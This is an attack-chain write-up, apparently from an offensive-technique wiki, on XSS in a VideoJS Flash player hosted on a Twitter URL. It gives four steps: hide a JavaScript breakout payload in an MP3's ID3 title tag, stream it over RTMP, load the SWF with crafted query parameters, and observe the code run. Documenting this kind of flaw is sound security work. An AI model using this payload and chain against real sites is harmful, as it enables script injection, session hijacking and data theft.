

# XSS via Unescaped RTMP Metadata Injection in VideoJS SWF

Multi-stage attack chain demonstrating a complete attack workflow exploiting XSS in VideoJS SWF through RTMP metadata injection.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- [[tools/RTMPD-CPP-RTMP-Media-Server]]

### Target Environment

- Web browser supporting Flash (e.g., legacy browsers or emulators)
- Access to an RTMP server setup
- No specific ports beyond standard RTMP (1935)

### Initial Access Requirements

- Public access to https://platform.twitter.com/video/video-js.1e43b81a2f30220a16fd493aaf072451.swf
- Ability to host RTMP streams
- No credentials required

## Detailed Attack Procedures

### Step 1: Prepare Malicious MP3
procedure: [[procedures/Prepare-Malicious-MP3-with-ID3-Tags]]

**Objective**: Create an MP3 file with crafted ID3 tags to inject JavaScript payload that breaks out of the expected object structure.

**Instructions**: Use audio editing tools or scripts to embed ID3 metadata with a payload like \"})}})}finally{confirm(/moin/)}// in the Title tag (TIT2).

**Expected Output**: An MP3 file (e.g., haha.mp3) ready for streaming.

**Success Indicators**:
- MP3 file generated with verifiable ID3 tags containing the payload
- Payload syntax validated to close JSON-like structures and execute JS

### Step 2: Host via RTMP Server
procedure: [[procedures/Host-MP3-via-RTMP-Server]]

**Objective**: Stream the malicious MP3 over RTMP to deliver unescaped metadata to the VideoJS SWF.

**Instructions**: Configure the RTMP server to host the stream with metadata, using parameters like rtmp://not-a-real-example-rtmp-server.com/ and rtmpStream=mp3:haha.

**Expected Output**: RTMP server running and streaming the MP3 with embedded metadata.

**Success Indicators**:
- Server logs confirm stream initiation
- Metadata (including server name and ID3 tags) is broadcasted unescaped

### Step 3: Load Vulnerable VideoJS SWF
procedure: [[procedures/Load-Vulnerable-VideoJS-SWF-with-RTMP-Parameters]]

**Objective**: Embed the VideoJS SWF in a page or directly access it with RTMP connection parameters to trigger metadata reading.

**Instructions**: Access the SWF URL with query params: ?eventProxyFunction=console.log&autoplay=true&rtmpStream=mp3:haha&rtmpConnection=rtmp://not-a-real-example-rtmp-server.com/.

**Expected Output**: SWF loads and connects to the RTMP server, reading metadata.

**Success Indicators**:
- SWF initializes without errors
- Network traffic shows RTMP connection established

### Step 4: Observe JavaScript Execution
procedure: [[procedures/Observe-JavaScript-Execution-via-Unescaped-Metadata]]

**Objective**: Confirm arbitrary JS execution in the browser context via the unescaped metadata passed through ExternalInterface.

**Instructions**: Monitor the browser console or UI for the injected code execution, such as a confirm dialog.

**Expected Output**: JavaScript like try { ... finally{confirm(/moin/)} ... } executes, showing the dialog.

**Success Indicators**:
- Confirm dialog or console output with payload execution
- No Flash policy file loaded, confirming RTMP bypass

## Attack Chain Summary

### Key Achievements

1. Successful injection of JS payload via ID3 tags in MP3 metadata
2. Bypassing HTTP metadata restrictions by using RTMP streams
3. Arbitrary JS execution in the hosting page's context, enabling session hijacking or data theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
